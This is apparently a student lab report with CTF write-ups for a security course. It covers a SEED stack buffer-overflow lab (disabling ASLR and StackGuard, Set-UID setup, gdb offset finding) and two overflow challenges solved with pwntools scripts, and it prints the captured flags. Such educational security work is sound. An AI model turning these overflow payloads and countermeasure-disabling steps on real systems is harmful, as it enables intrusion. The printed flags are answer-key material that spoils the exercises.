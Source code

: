 
# Tasks from Week 5 and 6


## Task 1: Turning Off Countermeasures

---

- To start this week's exercises, first we cloned the seed labs github files so that we had the necessary files.
Then, the first step was to turn off the countermeasures witch we did by using the commands in the image.

![image](prints/print1.png)
Image 1

- The first one, is used to change the value of a kernel parameter named "kernel.randomize_va_space". This parameter controls whether the virtual adders space layout of a process should be randomized or not; when the parameter has the value 1 it enables the ASLR for a process, which is a security technique to help prevent attacks that rely on predicting or guessing the location of code or data in a process's address space. 
At this point we changed the value to 0, disabling the ASLR (Address Space Layout Randomization).


- Secondly we used the command that we are able to see in the 3rd line of the first image. The "ln" is used to create links between files and the "-s" option created s symbolic link that acts as a pointer to another file or directory. Using "-f" forces the creation of the link, even if it already exists.
In conclusion, this 2nd command sets the default shell to "zsf". 

![image](prints/print2.jpg)
Image 2
- In the above print, we can conclude that access to the shell was provided by both the 32-bit and 64-bit versions.


## Task 2: Understanding the Vulnerable Program

---

- After turning off countermeasures, the next step was to change the directory to code.
- Here we wanted to compile the vulnerable program in stack.c, but first we needed to turn off the StackGuard. 
To do that we used the command in image 3

![image](prints/print5.jpeg)
Image 3

- In image 4 we started to compile using "make" and the results can be seen in image 5.

![image](prints/print6.jpeg)
Image 4

![image](prints/print7.jpeg)
Image 5

- Lastly, to make the program a root-owned Set-UID program we changed the ownership to root and after changed the permission to 4755 to enable the Set-IUD bit (represented in image 6). 
It is important to make these steps in this order.
- Changing the permission to 4755 means that the set-uid bit is being set for that file, which allows a user to execute the program with the permissions of the file owner, instead of their own permissions.

![image](prints/print8.jpeg)
Image 6


## Task 3: Launching Attack on 32-bit Program (Level 1)

---

- In this part,we wanted to attempt the buffer overflow, so we followed the instructions given by the professor.
- To exploit the vulnerability the most important part is to know the distance between the buffer's starting position
and the place where the return address is stored.
- After creating an empty file "badfile", we started debugging using the commands in the image below. "gdb" is a command that allows the user to examine the execution of programs, with it we can view the stack trace, examine memory and registers and finally set breakpoints- which is what we did at function bof().
The breakpoint is created in that part of the program because it is where overflow is possible, so with the break point we can analyse the addresses at that point.

![image](prints/L1.jpeg)
Image 7

- In image 8, we are able to see that we set a break point at function bof().

![image](prints/print9.jpeg)
Image 8

- After setting the breakpoint, we have to run the program we have loaded into "gdb". 
Since we set a break point in the program, it is only running until it gets to the break point; in image
10 there is a message that gives us the information that the break point has been hit.

![image](prints/print10.jpeg)
Image 9

![image](prints/print11.jpeg)
Image 10

- Since we want to keep going, and not stop as the break point, we use "next" to keep running the program.

![image](prints/print12.jpeg)
Image 11

![image](prints/print13.jpeg)
Image 12

- At this point we fully ran the program. The first command used in image 13 is used as a frame pointer in x86-based sytems and by doint this command we are storing the base address of the current stack frame.
- "p &buffer" is to print the memory address of the variable "buffer".

![image](prints/print14.jpeg)
Image 13

- As it was said in the beginning it is important to know the distance between the buffer’s starting position and the place where the return-address is store.
To help us with that used the command in image 14, that gives us the distance between 2 addresses; in this case it is 0x6c, which in decimal is 108 plus 4 bits, in total is 112-this was the value we used in the python file (exploit.py).
- The rest of the values in exploit.py, were decided by certain reasons:
- We started ret with 0xffffcaa8 and kept adding 4 to the value, unfortunately we added +300 nd still were given no results- the attack was not successful

![image](prints/print15.jpeg)
Image 14


- Lastly we tried to execute the commands to actually launch the attack, however we were not able to do it since the result we always obtained was "input 517" and "segmentation fault"

# CTF 5


## Challenge 1

---

We inspected the main.c file and found the following code:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        char meme_file[8] = "mem.txt\0";
        char buffer[20];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%28s", &buffer);
    
        printf("Echo %s\n", buffer);
    
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    
    
        fflush(stdout);
        
        return 0;
    }%

</p>
</details>

After looking around we noticed that the buffer only had space for 20 characters, but the scanf funtion had space for 28 character.
<br />
The flag_placeholder was in a file named flag.txt which had 8 characters.
<br />
So we decided to test the placing the name of the file in the end buffer and see what would happen.
<br />
So we modified the python exploit into the following code:

<details><summary>exploit.py</summary>
<p>

    #!/usr/bin/python3 
    from pwn import *
    
    DEBUG = False
    
    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4003)
    
    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaaflag.txt")
    r.interactive()
</p>
</details>

And we ran it:

![image](prints/img_1.png)

And we got the flag:

#### flag{d81e3178f0dada9591120653d7e23a8f}

## Challenge 2

---

We did the same thing and inspected the main.c file:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        char meme_file[8] = "mem.txt\0";
        char val[4] = "\xef\xbe\xad\xde";
        char buffer[20];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        if(*(int*)val == 0xfefc2223) {
            printf("I like what you got!\n");
            
            FILE *fd = fopen(meme_file,"r");
            
            while(1){
                if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                    printf("%s", buffer);
                } else {
                    break;
                }
            }
        } else {
            printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
        }
    
        fflush(stdout);
        
        return 0;
    }

</p>
</details>

We noticed that this version of the program had a new minor defense. The new version has another buffer in between the buffer we overflowed and the target. 
<br />
To bypass it we modified the python script with right sequence of the characters in this buffer.


<details><summary>exploit.py</summary>
<p>

    #!/usr/bin/python3
    from pwn import *
    
    DEBUG = False
    
    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4000)
    
    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt")
    r.interactive()

</p>
</details>

And we ran it:

![image](prints/img_2.png)

And we got the flag:

#### flag{019fa6c6a725fea8f08f7a3f5aee0fe8}